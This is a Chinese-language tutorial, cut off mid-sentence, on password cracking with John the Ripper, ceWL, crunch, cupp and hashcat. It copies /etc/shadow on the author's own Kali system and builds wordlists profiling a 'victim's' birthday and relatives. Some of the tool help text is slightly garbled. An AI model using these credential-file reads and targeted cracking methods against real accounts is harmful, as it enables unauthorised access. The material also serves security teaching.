John the Ripper 是最古老的持续维护的密码破解工具之一。它最早出现在 1996 年的黑客界，由 Solar Designer 维护这款出色的 Unix/Linux 密码破解工具。在这里，我们将使用这个简单但优雅的工具来学习密码破解的原则和策略。

我们只需在终端中输入命令 `john` 即可查看 John 的帮助文件。


# John the Ripper 使用示例

```
root@kali-2019:~# john
John the Ripper 1.8.0-1.j3-bluemoon-1-bleeding-973a245b96 2018-12-17 20:12:51 +0100 [linux-gnu 64-bit x86_64 AVX2 AC]
Copyright (c) 1996-2018 by Solar Designer and others
Homepage: http://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]
--single[-SECTION[,...]]	"single crack" mode, using default or named rules
--wordlist[=FILE]		wordlist mode, read words from FILE or stdin
--stdin			like --stdin, but bulk reads, and allows rules
--loopback[=FILE]		like --wordlist, but extract words from a .pot file
--duplicate-suppression		suppress all dupes in wordlist (and force preload)
--prince[=FILE]		PRINCE mode, read words from FILE
--encoding=NAME		input encoding (eg. UTF-8, ISO-8859-1). See also doc/ENCODINGS and --list-hidden-options
--rules[=SECTION[,...]]		enable word mangling rules (for wordlist or PRINCE modes), using default or named rule(s)
--rules=rule[,...]		same, using "immediate" rule(s)
--rules-stack=SECTION[,...]	stacked rules, applied after regular rules or to modes that otherwise don't support rules
--rules-stack=rule[,...]	same, using "immediate" rule(s)
--incremental[=MODE]	"incremental" mode (using section MODE)
--mask[=MASK]		mask mode using MASK (or default from john.conf)
--markov[=OPTIONS]	"Markov" mode (see doc/MARKOV)
--external=MODE		external mode or word filter
--subsets[=CHARSET]	"subsets" mode (see doc/SUBSETS)
--stdout[=LENGTH]		just output candidate passwords [cut at LENGTH]
--restore[=NAME]		restore an interrupted session [called NAME]
--session=NAME		give a new session the NAME
--status[=NAME]		print status of a session [called NAME]
--make-charset=FILE		make a charset file. It will be overwritten
--show[=left]		show cracked passwords [if --left, then uncracked]
--test[=TIME]		run tests and benchmarks for TIME seconds each
--users[~]LOGINS[UID[,...]	[do not] load this (these) user(s) only
--groups[~]GID[,...]		load users [not] of this (these) group(s) only
--shells[~]SHELL[,...]		load users with[out] this (these) shell(s) only
--salts[~]COUNT[~MAX]		load salts with[out] COUNT [to MAX] hashes
--costs[~]COST[,...]		load salts with[out] cost value [to MIN]. For tunable cost parameters, at LEVEL 1-3
--save-memory=LEVEL		enable memory saving, at LEVEL 1-3
--nodes=MIN[-MAX]/TOTAL	this node's number range out of TOTAL count
--fork=N		fork N processes
--pot=NAME		pot file to use
--list=WHAT		list capabilities, see --list-help or doc/OPTIONS
--format=NAME		force hash of type NAME. The supported formats can be seen with --list-formats and --list=subformats
```

```
root@kali-2019:~# useradd hacker
root@kali-2019:~# passwd hacker
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
root@kali-2019:~#
```

让我们通过破解我们自己 Kali Linux 系统上的密码来开始这段密码破解之旅。首先，让我们使用 Linux 命令 `useradd` 在系统上创建一些新账户。这个简单的命令需要一个用户名，然后输入命令 `passwd` 接着输入账户名称。

它会提示你两次输入密码。

创建五个新账户。在前两个账户中，使用短的词典单词。然后，在接下来的三个账户中，使用越来越长且更复杂的密码（添加数字、特殊字符等）。

现在我们已经在 Kali 上有六个用户账户（五个新账户和我们的 `root` 账户），让我们尝试用 `John the Ripper` 来破解它们。

破解这些密码的第一步是提取 `/etc/shadow` 文件（哈希值所在的地方），并去除除密码哈希之外的所有内容。我们可以使用 John 的 `unshadow` 命令来完成此操作。该命令要求 `/etc/shadow` 和 `/etc/passwd` 文件位于同一目录中。

```
root@kali-2019:~# cp /etc/passwd ./
root@kali-2019:~# cp /etc/shadow ./
root@kali-2019:~# unshadow passwd shadow > passwordhashes
```

```
root@kali-2019:~# john passwordhashes
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Remaining 4 password hashes with 4 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Wordlist
Press 'q' or Ctrl-C to abort, almost any other key for status
```

此类消息的后续提示将被抑制。

若希望今后减少此类警告的显示，请在 `john.conf` 中启用 `RelaxKPCWarningCheck`。

几乎完成：正在处理剩余的已缓冲候选密码（如果有）。

继续使用词表:`/usr/share/john/password.lst`，规则:`Wordlist`

`123456`          (`user4`)

`qwerty`          (`masterhacker`)

继续使用增量模式:`ASCII`


让我们将 `shadow` 文件和 `passwd` 文件都复制到当前工作目录，然后对它们应用 `unshadow` 命令，接着将清理后的密码哈希重定向（`>`）到一个名为“`passwordhashes`”的文件中。

```bash
kali > cp /etc/shadow ./
```

```bash
kali > cp /etc/passwd ./
```

```bash
kali > unshadow passwd shadow > passwordhashes
```

尽管 `john` 是一个拥有众多选项和功能的强大工具，但我们只需执行 `john` 命令并跟上哈希文件（`passwordhashes`），即可开始密码破解过程。

`John` 现在将分析使用了哪种类型的哈希算法（即所使用的加密方式；存在数百种不同的哈希算法，`John` 能够对底层哈希算法进行相当准确的自动检测），以及是否使用了盐（盐是添加到密码中的一组额外字符，旨在增加破解难度）。然后，它开始使用其内置的默认 3,500 个常见密码列表来破解这些哈希。

几秒钟内，它已经破解了我的两个密码，并继续工作以破解其他密码。

`John` 将继续尝试破解其他密码。当它完成或你终止其执行（`Ctrl+C`）时，你可以通过输入以下命令查看密码：

```bash
root@kali-2019:~# john --show passwordhashes
root:toor:0:0:root:/root:/bin/bash
hacker:hacker:1005:1005::/home/hacker:/bin/sh
masterhacker:qwerty:1006:1006::/home/masterhacker:/bin/sh
user4:123456:1007:1007::/home/user4:/bin/sh
4 password hashes cracked, 1 left
```

```bash
root@kali-2019:~# john --wordlist=/root/top1000passwords --rules passwordhashes
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt3 $6$ [SHA512 256/256 AVX2 4x])
Remaining 1 password hash
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
g55word         (user3)
1g: 0:00:00:00 DONE (2019-06-22 11:03) 1.041g/s 1066c/s 1066c/s 1066c/s octor..Qwertyuop
Use the "-show" option to display all of the cracked passwords reliably
Session completed
root@kali-2019:~#
```

如你所见，`john` 仅用几分钟就成功破解了我的四个密码，但有一个失败了。这仅仅意味着该问题密码不在 `john` 使用的默认列表中。

让我们尝试另一个词表来破解剩余的密码。在线和 Kali 中有无数密码列表，有些质量好，有些则不然。正如我前文所述，先尝试最常用的密码始终是一个好策略。如果你访问 [www.hackers-arise.com/passwords-list](https://www.hackers-arise.com/passwords-list) ，你会发现可以下载和使用的众多密码列表。这里我首先从 Top 1,000 密码开始。

我们可以通过在 `john` 命令后使用关键字 `-wordlist` 加上列表的位置（`/root/top1000passwords`）来利用这些外部列表。为了增强我们找到密码的能力，我们可以添加 `-rules` 选项。用户通常被教导在密码中使用并替换字母、数字和特殊字符（这通常被称为“munging”）。`-rules` 选项将根据 `john` 内置的各种规则“损坏”（mangle）我们的密码列表（如需查看规则列表，请前往 `john` 的 man page 并向下滚动到关于规则的部分）。这包括字符替换，例如将单词“password”转换为“p@$$w0rd”。

我们的命令现在应该如下所示。

```bash
kali > john -wordlist=/root/top1000passwords -rules passwordhashes
```

是的！我们找到了唯一一个用户（`user5`）的密码，这是在第一次使用 `john` 运行时未找到的。这并不难，对吧？

如果这种策略没有奏效，我们本可以使用更大的密码列表，或者最终退而求其次，通过尝试所有字母、数字和特殊字符的组合来对密码进行暴力破解。正如我前面提到的，暴力破解密码可能会消耗大量的时间和资源。

## 创建自定义密码列表

如果我们在使用密码列表方面没有成功，我们可能需要考虑构建自己的密码列表。在本节中，我将向你展示三种用于创建自定义密码列表的工具：`ceWL`、`crunch` 和 `cupp`。

### ceWL

尽管人类倾向于创建和使用相似的密码，但许多人会使用其行业或爱好中晦涩或鲜为人知的单词来创建密码。通过这种方式，他们认为自己的密码是安全的，因为行业或爱好圈外的人不会想到这些词。

`cewl` 背后的概念是收集这些专业词汇以创建专门的密码列表。`ceWL` 从目标网站抓取单词，然后基于这些单词创建一个密码列表。通过这种方式，你可以为某个行业或个人创建专门的密码列表。

例如，让我们假设目标工作在生物制药行业。他们日常工作中使用的许多单词对于普通黑客来说都是陌生的。因此，他们可能会将其用作密码，相信它们不太可能出现在黑客使用的密码列表中，而且他们很可能是对的。像 *reverseDNAtranscription*、*polymerasechainreaction* 等词汇不太可能出现在任何黑客的密码列表中。同时，这些词很可能出现在公司或行业网站上。`ceWL` 能够获取这些专业词汇并为该行业的密码破解创建自定义词表。

让我们来看看使用 `ceWL` 创建自定义密码列表。

`ceWL` 内置于 Kali 中，因此无需下载和安装任何内容。只需输入 `ceWL` 即可开始，或者更好的是输入 `cewl -h` 调出帮助屏幕。

```bash
kali > cewl -h
```


# CeWL 使用示例

```bash
root@kali-2019:~ # cewl -h
CeWL 5.4.3 (Arkanoon) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Usage: cewl [OPTIONS] ... <url>

OPTIONS:
-h, --help: Show help.
-k, --keep: Keep the downloaded file.
-d <>, --depth <>: Depth to spider to, default 2.
-m, --min word length: Minimum word length, default 3.
-o, --offset: Let the spider visit other sites.
-w, --write: Write the output to the file.
-u, -ua <agent>: User agent to send.
-n, --no-words: Don't output the wordlist.
--with-numbers: Accept words with numbers in as well as just letters
-a, --meta: include meta data.
--meta_file file: Output file for meta data.
-e, --email: Include email addresses.
--email_file <file>: Output file for email addresses.
--meta-temp-dir <dir>: The temporary directory used by exiftool when parsing files, default /tmp.
-C, --count: Show the count for each word found.
-v, --verbose: Verbose.
--debug: Extra debug information.

Authentication
--auth_type: Digest or basic.
--auth_user: Authentication username.
--auth_pass: Authentication password.

Proxy Support
--proxy_host: Proxy host.
--proxy_port: Proxy port, default 8080.
--proxy_username: Username for proxy, if required.
--proxy_password: Password for proxy, if required.

Headers
--header, -H: In format name:value - can pass multiple.

<url>: The site to spider.
```

```bash
root@kali-2019:~ # cewl -d 4 -m 8 https://www.hackers-arise.com -w cewlpasswords
CeWL 5.4.3 (Arkanoon) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

虽然这个帮助屏幕因其众多选项看起来有点吓人，但如果我们剔除所有选项，基本命令是：

```bash
kali > cewl -url <the URL you want to scrape>
```

在没有任何选项的情况下运行 `ceWL` 很可能会生成一个包含许多不符合目标密码策略的单词的词表。更聪明且高效的方法是只收集比典型公司密码策略更长的单词，通常至少为八个字符。我们可以通过使用 `ceWL` 的最小单词长度选项或 `-m` 后跟 `8` 来实现这一点。此外，我们可以确定爬取深度（查看多少层子目录）。这个数字将取决于

在该网站上，但我认为四个子目录的深度足以高效地捕获大多数关键词。现在我们就可以编写 `ceWL` 命令来实现这一目标，从 `www.hackers-arise.com` 抓取所有长度超过 `8` 个字符的单词。

```bash
kali > cewl -d 4 -m 8 https://www.hackers-arise.com -w cewlpasswords
```

```text
root@kali-2019:~# cat cewlpasswords
Metasploit
Forensics
Training
Subscribers
security
Automobile
Exploits
Facebook
computer
Raspberry
Security
Cracking
Bluetooth
information
Wireless
Password
directory
Engineering
Reconnaissance
Scripting
Forensic
Vulnerability
Investigator
Scanning
Information
Internet
Registration
Networks
Professional
Confessions
Fundamentals
Development
Schedule
Payments
Confidantes
DataBase
Honeypot
```

请注意，在目标网站 URL 前加上 `http` 或 `https` 非常重要。如果没有这个前缀，`ceWL` 将无法抓取目标 URL。根据网站的大小，这可能需要几个小时。

当 `ceWL` 完成潜在密码的抓取后，它会将所有潜在密码放入一个我命名为 `cewlpasswords` 的文件中（你可以随心所欲地命名）。我们可以使用 `cat` 命令查看该文件的内容：

```bash
kali > cat cewlpasswords
```

`ceWL` 在 `www.hackers-arise.com` 上发现了数百个潜在密码，其中一些非常具有行业针对性，例如 `Metasploit`、`exploits`、`vulnerability`、`scripting` 等。

要在 `john` 中使用该密码列表，我们可以输入：

```bash
kali > john -wordlist=/root/cewlpasswords -rules passwordhashes
```

`john` 将使用从目标网站抓取的单词列表（`cewlpasswords`），并应用规则通过字符替换来变形（`-rules`）这些单词，从而增加破解目标密码的机会。

## Crunch

有时，为了破解密码，我们可能需要创建一个满足特定已知参数的专用列表。例如，也许我们知道所有密码都以四个数字结尾（例如 `password1234`），或者我们知道目标的生日并怀疑他们将其用于密码中。如果目标的生日是 `2` 月 `29` 日，他们可能会创建诸如 `password0229` 这样的密码。`Crunch` 是我们创建此类列表的工具！

要开始使用 `crunch`，只需在 `BASH` shell 中输入 `crunch`。

```bash
kali > crunch
```

```text
root@kali-2019:~# crunch
crunch version 3.6
Crunch can create a wordlist based on criteria you specify. The output from crunch can be sent to the screen, file, or to another program.
Usage: crunch <min> <max> [options]
where min and max are numbers
Please refer to the man page for instructions and examples on how to use crunch.
root@kali-2019:~#
```


# CRUNCH(1)
General Commands Manual
CRUNCH(1)

## NAME
`crunch` - generate wordlists from a character set

## SYNOPSIS
`crunch <min-len> <max-len> [<charset string>] [options]`

## DESCRIPTION
Crunch can create a wordlist based on criteria you specify. The output from crunch can be sent to the screen, file, or to another program. The required parameters are:

### `min-len`
The minimum length string you want crunch to start at. This option is required even for parameters that won't use the value.

### `max-len`
The maximum length string you want crunch to end at. This option is required even for parameters that won't use the value.

### `charset string`
You may specify character sets for crunch to use on the command line or if you leave it blank crunch will use the default character sets. The order MUST BE lower case characters, upper case characters, numbers, and then symbols. If you don't follow this order you will not get the results you want. You MUST specify either values for the character type or a plus sign.

NOTE: If you want to include the space character in your character set you must escape it using the `\` character or enclose your character set in quotes i.e. `"abc "`. See the examples 3, 11, 12, and 13 for examples.

## OPTIONS

### `-b number[type]`
Specifies the size of the output file, only works if `-o START` is used, i.e.: `60MB` The output files will be in the format of starting letter-ending letter for example: `./crunch45-b 20mb -o START` will generate 4 files: `aaaa-gfved.txt`, `gfzee-omgbw.txt`, `omgbz-wcydu.txt`, `wcydu-zzzzz.txt` valid values for type are `kb`, `mb`, `gb`, `kib`, `mib`, and `gib`. The first three types are based on 1000 while the last three types are based on 1024. NOTE There is no space between the number and type. For example `500mb` is correct `500 mb` is NOT correct.

### `-t @%,$" `
Specifies a pattern, eg: `@@@@@@@%@@@` where the only the `@`'s, `,'`s, `$`'s, and `^`'s will change.
`@` will insert lower case characters
`,` will insert upper case characters
`%` will insert numbers
`"` will insert symbols

尽管这里显示了一些关于 `crunch` 的基本信息，但我们确实需要查看 man 页面来理解如何使用 `crunch`。

```bash
kali > man crunch
```

在这里，我们可以看到为了高效使用 `crunch` 的所有关键选项。如果我们往下滚动一点，可以看到用于与 `-t` 选项配合使用的模式指定通配符。

## EXAMPLES

### Example 1
`crunch 1 8`
`crunch` will display a wordlist that starts at a and ends at zzzzzzzz

### Example 2
`crunch 1 6 abcdefg`
`crunch` will display a wordlist using the character set `abcdefg` that starts at a and ends at gggggg

### Example 3
`crunch 1 6 abcdeg\`
`crunch 1 6 abcdeg\`
there is a space at the end of the character string. In order for crunch to use the space you will need to escape it using the `\` character. In this example you could also put quotes around the letters and not need the `\"`, i.e. `"abcdefg"`. Crunch will display a wordlist using the character set abcdefg that starts at a and ends at (6 spaces)

### Example 4
`crunch 1 8 -f charset.lst mixalpha-numeric-all-space -o wordlist.txt`
`crunch` will use the `mixalpha-numeric-all-space` character set from `charset.lst` and will write the wordlist to a file named `wordlist.txt`. The file will start with a and end with "                "

### Example 5
`crunch 8 8 -f charset.lst mixalpha-numeric-all-space -o wordlist.txt -t @dgg@@@ -s cbdogaaa`
`crunch` should generate a 8 character wordlist using the `mixalpha-number-all-space` character set from `charset.lst` and will write the wordlist to a file named `wordlist.txt`. The file will start at `cbdogaaa` and end at " dog "

### Example 6
`crunch 2 3 -f charset.lst walpha -s BB`
`crunch` with start generating a wordlist at `BB` and end with `ZZZ`. This is useful if you have to stop generating a wordlist in the middle. Just do a tail `wordlist.txt` and set the `-s` parameter to the next word in the sequence. Be sure to rename the original wordlist BEFORE you begin as crunch will overwrite the existing wordlist.


```text
root@kali-2019:~# crunch 9 9 -t dylan%%%% -o customwordlist.txt
Crunch will now generate the following amount of data: 100000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000
crunch: 100% completed generating output
```

然后，当我们滚动到 `man` 页面底部时，可以看到一些简单的示例。

现在让我们尝试使用 `crunch` 创建单词列表。还记得我上面提到的那个目标吗？它的密码策略是至少八个字符且至少包含一个数字。让我们创建一个满足这些标准的自定义密码列表。

假设我们知道目标是一位 Bob Dylan 的粉丝。他们可能会使用那个名字，然后在后面加上四个数字（也许是他们的出生日期）。我们可以通过输入以下内容在 `crunch` 中创建这样一个列表：

```bash
kali > crunch 9 9 -t dylan%%%% -o customwordlist.txt
```

当我们按下回车键时，`crunch` 首先计算文件将变得多大，然后再创建它（那些《Mr. Robot》的粉丝（www.hackers-arise.com/mr-robot）可能会认出，Elliot 在第一季中使用了类似的技术破解了他治疗师的密码）。在这种情况下，`crunch` 估计将是 100,000 字节。这是至关重要的信息，因为使用 `crunch` 创建的文件可能极其庞大，会填满你的整个硬盘。例如，如果我想要创建一个在密码前有四个字母、后有四个数字且最多达十三个字符的单词列表，我会输入：

```bash
kali > crunch 13 13 -t @@@@dylan%%%% -o customwordlist.txt
```

```text
root@kali-2019:~# crunch 13 13 -t @@@@dylan%%%% -o customwordlist.txt 
Crunch will now generate the following amount of data: 63976640000 bytes 61012 MB 59 GB 0 TB 0 PB
Crunch will now generate the following number of lines: 4569760000
```

```text
root@kali-2019:~# git clone https://github.com/Mebus/cupp 
Cloning into 'cupp'... 
remote: Enumerating objects: 6, done. 
remote: Counting objects: 100% (6/6), done. 
remote: Compressing objects: 100% (6/6), done. 
remote: Total 194 (delta 1), reused 1 (delta 0), pack-reused 188 
Receiving objects: 100% (194/194), 109.18 KiB | 1.13 MiB/s, done. 
Resolving deltas: 100% (100/100), done.
```

如上所示，`crunch` 即将创建一个 59GB 的单词列表！这有点……

笨重。除非你拥有极大的耐心或/和强大的计算能力，否则你可能想改变你的策略。

## Cupp

有时我们可能希望创建一个针对特定目标的潜在密码列表。人们经常使用他们自己的名字、孩子的名字、伴侣的名字、宠物的名字或他们最喜欢的音乐人的名字作为密码，通常会将这些名字与特殊字符和数字组合在一起（承认吧，你也这样干过！）。我们有一个特殊的工具，可以根据目标的一些关键信息创建定制的密码列表。它叫做 `cupp`，即通用用户密码配置文件（Common User Password Profiler）。

`Cupp` 并没有内置在 Kali 中，因此你需要从 `github.com` 下载它。

```bash
kali > git clone https://github.com/Mebus/cupp
```

接下来，我们需要改变目录，进入我们新的 `cupp` 目录。

```bash
kali > cd cupp
```

要运行 `cupp` 的帮助界面，我们只需输入：

```bash
kali > ./cupp.py
```

```text
root@kali-2019:~/cupp$ ./cupp.py

cupp.py!        # 通用
                # 用户
                # 密码
                # 配置文件

                [ Muris Kurgas | j0rgan@remote-exploit.org ]
                [ Mebus | https://github.com/Mebus/ ]

用法: cupp.py [-h] [-i | -w 文件名 | -l | -a | -v] [-q]

通用用户密码配置文件

可选参数:
  -h, --help      显示此帮助消息并退出
  -i, --interactive
                  交互式问题用于用户密码分析
  -w 文件名       使用此选项来改进现有的字典，或 WyD.pl
                  输出以创建一些密码
  -l              从存储库下载巨大的词表
  -a              直接从 Alecto DB 解析默认的用户名和密码。
                  Project Alecto 使用了经过净化的 Phenoelit 和 CIRT
                  数据库，这些数据库已被合并和增强
  -v, --version   显示此程序的版本。
  -q, --quiet     安静模式（不打印横幅）
```

正如你所见，`cupp` 是一个简单的工具，只有少数几个选项。要在交互模式下启动 `cupp`，输入命令 `cupp` 并附加 `-i`：

```bash
kali > ./cupp.py -i
```

```text
root@kali-2019:~/cupp# ./cupp.py -i
 cupp.py! # 通用
 \ # 用户
 ,.´ # 密码
 (oo)\_ # 配置文件
 `\_` /\
  [|-1|]

 [ Muris Kurgas | j0rgan@remote-exploit.org ]
 [ Mebus | https://github.com/Mebus/]

 [+]	插入关于受害者的信息以创建一个字典
 [-]	如果你不知道所有信息，在提问时直接按回车键即可！ ;)

> 名字: Krista
> 姓氏: Gordon
> 昵称: kristy
> 出生日期 (日日月月月): 02291976

> 伴侣的名字: michael
> 伴侣的昵称: mike
> 伴侣的出生日期 (日日月月月): 

> 孩子的名字:
> 孩子的昵称:
> 孩子的出生日期 (日日月月月):

> 宠物的名字:
> 公司名称:

> 你想添加一些关于受害者的关键词吗? Y/[N]: dylan
> 你想在单词末尾添加特殊字符吗? Y/[N]:
> 你想在单词末尾添加一些随机数字吗? Y/[N]:
> 启用 Leet 模式? (例如: leet = 1337) Y/[N]: Y

 [+]	正在制作字典...
 [+]	正在对列表进行排序并移除重复项...
 [+]	正在将字典保存到 krista.txt，共包含 3980 个单词。
 [-]	现在加载你的 pistoler0 并配合 krista.txt 进行射击！祝好运！
```

```bash
root@kali-2019:~/cupp# cat krista.txt
```

```text
021976
021976
0219762
0219762
02197629
02197629
02197676
02197676
0219769
0219769
021976976
021976976
0221976
0221976
02291976
02291976
022976
022976
0229976
0229976
02761976
02761976
027629
027629
0276976
0276976
0291976
0291976
029761976
029761976
029762
029762
0297629
```

当我们这样做时，`cupp` 进入交互模式，并开始询问有关目标的问题，例如名字、生日、伴侣、宠物名字、孩子名字等。我填入的信息是以电视剧《黑客军团》（“Mr. Robot”）中的主要角色 Elliot Alderson 当他针对其指定治疗师 Krista Gordon 时可能会填写的内容。


当 `cupp` 完成其任务后，它会将其生成的所有潜在密码（在本例中为 3,980 个）放入一个名为 `krista.txt` 的文件中。我们可以输入以下命令来查看该文件的内容：

```bash
kali > cat krista.txt
```

```text
Kr157y_92
Kr157y_9202
Kr157y_9229
Kr157y_9276
Kr157y_929
Kr157y_9292
Kr157y_976
Kr157y_9762
Kr157y_9769
Kr157y_9976
Krista
Krista02
Krista022
Krista02229
Krista02276
Krista0229
Krista02292
Krista02299
Krista0276
Krista02762
Krista02769
Krista029
Krista0292
Krista02929
Krista02976
Krista1976
Krista19762
Krista19769
Krista2
Krista2008
Krista2009
Krista2010
Krista2011
Krista2012
Krista2013
Krista2014
Krista2015
Krista2016
Krista2017
```


```text
Gørdø n
Gørdø n02
Gørdø n22
Gørdø n02229
Gørdø n02276
Gørdø n229
Gørdø n2292
Gørdø n02299
Gørdø n276
Gørdø n2762
Gørdø n2769
Gørdø n029
Gørdø n0292
Gørdø n02929
Gørdø n02976
Gørdø n1976
Gørdø n19762
Gørdø n19769
Gørdø n2
Gørdø n2008
Gørdø n2009
Gørdø n2010
Gørdø n2011
Gørdø n2012
Gørdø n2013
Gørdø n2014
Gørdø n2015
Gørdø n2016
Gørdø n2017
Gørdø n2018
Gørdø n2019
Gørdø n202
```

正如上面所示，`cupp` 首先使用她出生日期的变体……然后是她的姓氏的变体…………以及她的名字的变体。目标的密码出现在这份定制密码列表中的可能性非常大。

## Hashcat

将 `cewl`、`crunch` 和 `cupp`（这三个 C）的输出组合起来创建自定义列表，在许多情况下是一种有效的策略，但如果这些方法都无效且你需要暴力破解密码怎么办？这时纯粹的速度至关重要。

`Hashcat` 是最快和最复杂的密码破解器之一。此外，它允许我们使用显卡上的 `GPU`，对于密码破解来说，这比我们的 `CPU` 快得多。

```bash
root@kali-2019:~# hashcat --help
```

```text
hashcat - 高级密码恢复

用法: hashcat [选项]... 哈希[哈希文件]...|hccapx文件 [字典][掩码][目录]...

- [ 选项 ] -

选项 短/长      | 类型 | 描述                                     | 示例
====================================================================================================
-#, --hash-type        | Num  | 哈希类型，见下文参考               | -m 1000
-0, --attack-mode      | Num  | 攻击模式，见下文参考             | -a 3
-V, --version          |      | 打印版本
-h, --help             |      | 打印帮助
     --quiet            |      | 抑制输出
     --hex-charset      |      | 假设字符集以十六进制给出
     --hex-salt         |      | 假设盐值以十六进制给出
     --hex-wordlist    |      | 假设字典中的单词以十六进制给出
     --force            |      | 忽略警告
     --status           |      | 启用状态屏幕自动更新
     --status-timer     | Num  | 设置状态屏幕更新之间的秒数为 X     | --status-timer=1
     --stdin-timeout-abort| Num | 如果标准输入在 X 秒内没有输入则中止 | --stdin-timeout-abort=300
     --machine-readable |      | 以机器可读格式显示状态视图
     --keep-guessing    |      | 在哈希被破解后继续猜测
     --self-test-disable|      | 禁用启动时的自测功能
     --loopback         |      | 将新的明文添加到输入目录
     --markov-hcstat2  | 文件 | 指定要使用的 hcstat2 文件           | --markov-hcstat2=my.hcstat2
     --markov-disable  |      | 禁用 markov 链，模拟经典暴力破解
     --markov-classic  |      | 启用经典 markov 链，无按位置分类
-t, --markov-threshold | Num  | 停止接受新 markov 链的阈值 X      | -t 50
     --runtime           | Num  | 在运行 X 秒后中止会话           | --runtime=10
     --session           | Str  | 定义特定的会话名称               | --session=mysession
     --restore           |      | 从 --session 恢复会话
     --restore-disable   |      | 不写入恢复文件
     --restore-file-path | 文件 | 指定恢复文件的路径                 | --restore-file-path=xs.restore
     --outfile           | 文件 | 定义恢复哈希的输出文件          | -O outfile.txt
     --outfile-format    |      | 定义恢复哈希的输出文件格式 X      | --outfile-format=7
     --outfile-autohex-disable|  | 禁用输出明文中的 [HEX] 使用
     --outfile-check-timer| Num | 设置输出文件检查之间的秒数为 X     | --outfile-check=30
     --wordlist-autohom-disable|  | 禁用字典中 [HEX] 的转换
-p, --separator         | Char | 哈希列表和输出文件的分隔符         | P :
     --stdout            |      | 不破解哈希，仅打印候选项
     --show              |      | 将哈希列表与 potfile 比较：显示已破解的哈希
     --left              |      | 将哈希列表与 potfile 比较：显示未破解的哈希
     --username          |      | 启用忽略哈希文件中的用户名
```

### - [ 哈希模式 ] -

| | 名称 | 类别 |

|---|---|---|

| 0 | MD4 | 原始哈希 |

| 0 | MD5 | 原始哈希 |

| 5100 | 半 MD5 | 原始哈希 |

| 100 | SHA1 | 原始哈希 |

| 1300 | SHA2-224 | 原始哈希 |

| 1400 | SHA2-256 | 原始哈希 |

| 10800 | SHA2-384 | 原始哈希 |

| 1700 | SHA2-512 | 原始哈希 |

| 17300 | SHA3-224 | 原始哈希 |

| 17400 | SHA3-256 | 原始哈希 |

| 17500 | SHA3-384 | 原始哈希 |

| 17600 | SHA3-512 | 原始哈希 |

| 17700 | Keccak-224 | 原始哈希 |

| 17800 | Keccak-256 | 原始哈希 |


| 17900 | Keccak-384 | 原始哈希 |

| 18000 | Keccak-512 | 原始哈希 |

| 600 | BLAKE2b-512 | 原始哈希 |

| 10100 | Siphash | 原始哈希 |

| 6000 | RIPEMD-160 | 原始哈希 |

| 6100 | whirlpool | 原始哈希 |

| 6900 | GOST R 34.11-94 | 原始哈希 |

| 11700 | GOST R 34.11-2012 (Streebog) 256 位，大端序 | 原始哈希 |

| 11800 | GOST R 34.11-2012 (Streebog) 512 位，大端序 | 原始哈希 |

| 10 | `md5($pass.$salt)` | 原始哈希，加盐和/或迭代 |

| 20 | `md5($salt.$pass)` | 原始哈希，加盐和/或迭代 |

| 30 | `md5(utf16le($pass).$salt)` | 原始哈希，加盐和/或迭代 |

| 40 | `md5($salt.utf16le($pass))` | 原始哈希，加盐和/或迭代 |

| 3800 | `md5($salt.$pass.$salt)` | 原始哈希，加盐和/或迭代 |

| 3710 | `md5($salt.md5($pass))` | 原始哈希，加盐和/或迭代 |

| 4010 | `md5($salt.md5($salt.$pass))` | 原始哈希，加盐和/或迭代 |

| 4110 | `md5($salt.md5($pass.$salt))` | 原始哈希，加盐和/或迭代 |

| 2600 | `md5(md5($pass))` | 原始哈希，加盐和/或迭代 |

| 3910 | `md5(md5($pass).md5($salt))` | 原始哈希，加盐和/或迭代 |

| 4300 | `md5($strupper(md5($pass)))` | 原始哈希，加盐和/或迭代 |

| 4400 | `md5(sha1($pass))` | 原始哈希，加盐和/或迭代 |

| 110 | `sha1($pass.$salt)` | 原始哈希，加盐和/或迭代 |

| 120 | `sha1($salt.$pass)` | 原始哈希，加盐和/或迭代 |

| 130 | `sha1(utf16le($pass).$salt)` | 原始哈希，加盐和/或迭代 |

| 140 | `sha1($salt.utf16le($pass))` | 原始哈希，加盐和/或迭代 |

`Hashcat` 是一个功能极其强大的工具，拥有众多特性。如果查看其帮助界面，内容可以延伸许多页。

```
kali > hashcat -help 135 | Page
```

## ? | 字符集

| | 描述 |

|---|---|

| l | abcdefghijklmnopqrstuvwxyz |

| u | ABCDEFGHIJKLMNOPQRSTUVWXYZ |

| d | 0123456789 |

| h | 0123456789abcdef |

| H | 0123456789ABCDEF |

| s | "*#+%&()'\[\]:;.,/?=>~?@[\]\\^_`{}|\~- |

| a | ?l?u?d?s |

| b | 0x00 - 0xff |

## - [ OpenCL 设备类型 ] -

| | 设备类型 |

|---|---|

| 1 | CPU |

| 2 | GPU |

| 3 | FPGA, DSP, 协处理器 |

## - [ 工作负载配置 ] -

| | 性能 | 运行时间 | 功耗 | 桌面影响 |

|---|---|---|---|---|

| 1 | 低 | 2 ms | 低 | 极小 |

| 2 | 默认 | 12 ms | 经济 | 可察觉 |

| 3 | 高 | 96 ms | 高 | 无响应 |

| 4 | 噩梦 | 480 ms | 极高 | 无头模式 |

## - [ 基本示例 ] -

| 攻击模式 | 哈希类型 | 示例命令 |

|---|---|---|

| 字典 | SP5 | `hashcat -a 0 -m 400 example400.hash example.dict` |

| 字典 + 规则 | MD5 | `hashcat -a 0 -m 0 example0.hash example.dict -r rules/best64.rule` |

| 暴力破解 | MD5 | `hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a` |

| 组合器 | MD5 | `hashcat -a 1 -m 0 example0.hash example.dict example.dict` |

在最后的帮助界面中，你可以看到字符集的选择、设备类型、工作负载配置，最后是一些示例。

要使用 `hashcat` 破解密码，我们需要：

1. 我们要破解的哈希类型；
2. 攻击类型；
3. 已破解密码的输出文件；
4. 包含我们哈希值的文件；
5. 包含我们字典的文件。

然后，要破解来自 Windows 系统的密码哈希，我们可以创建如下 `hashcat` 命令：

```
